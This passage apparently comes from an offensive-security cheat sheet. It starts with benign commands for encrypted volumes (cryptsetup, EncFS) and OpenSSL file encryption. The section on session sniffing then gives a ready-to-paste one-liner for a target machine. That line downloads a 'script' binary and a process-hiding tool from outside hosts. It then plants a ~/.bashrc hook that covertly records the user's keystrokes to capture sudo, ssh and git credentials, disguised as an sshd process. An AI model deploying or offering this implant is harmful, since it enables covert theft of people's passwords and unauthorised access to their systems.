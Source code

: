 Mount:

```sh
cryptsetup open /tmp/crypted sec
mount -o nofail,noatime /dev/mapper/sec /mnt/sec
```

Store data in `/mnt/crypted`, then unmount:

```sh
umount /mnt/sec
cryptsetup close sec 
```
<a id="encfs"></a>
**9.ii.b. Linux transportable encrypted filesystems - EncFS**

Create ```.sec``` and store the encrypted data in ```.raw```:
```sh
mkdir .raw .sec
encfs --standard  "${PWD}/.raw" "${PWD}/.sec"
```

unmount:
```sh
fusermount -u .sec
```

<a id="encrypting-file"></a>
**9.iii Encrypting a file**

Encrypt your 0-Days and log files before transferring them - please. (and pick your own password):

```sh
# Encrypt
openssl enc -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt >input.txt.enc
```

```sh
# Decrypt
openssl enc -d -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt.enc >input.txt
```

---
<a id="sniffing"></a>
## 10. Session sniffing and hijaking
<a id="session-sniffing"></a>
**10.i Sniff a user's SHELL session**

A 1-liner for `~/.bashrc` to sniff the user's keystrokes and save them to `~/.config/.pty/.@*`. Useful when not root and needing to capture the sudo/ssh/git credentials of the user. 

Deploy: Cut & paste the following onto the target and follow the instructions:
```sh
command -v bash >/dev/null || { echo "Not found: /bin/bash"; false; } \
&& { mkdir -p ~/.config/.pty 2>/dev/null; :; } \
&& curl -o ~/.config/.pty/pty -fsSL "https://bin.pkgforge.dev/$(uname -m)/script" \
&& curl -o ~/.config/.pty/ini -fsSL "https://github.com/hackerschoice/zapper/releases/download/v1.1/zapper-stealth-linux-$(uname -m)" \
&& chmod 755 ~/.config/.pty/ini ~/.config/.pty/pty \
&& echo -e '----------\n\e[0;32mSUCCESS\e[0m. Add the following line to \e[0;36m~/.bashrc\e[0m:\e[0;35m' \
&& echo -e '[ -z "$LC_PTY" ] && [ -t 0 ] && [[ "$HISTFILE" != *null* ]] && { ~/.config/.pty/ini -h && ~/.config/.pty/pty -V; } &>/dev/null && LC_PTY=1 exec ~/.config/.pty/ini -a "sshd: pts/0" ~/.config/.pty/pty -fqaec "exec ${BASH_EXECUTION_STRING:--a -bash '"$(command -v bash)"'}" -I ~/.config/.pty/.@pty-unix.$$\e[0m'
```
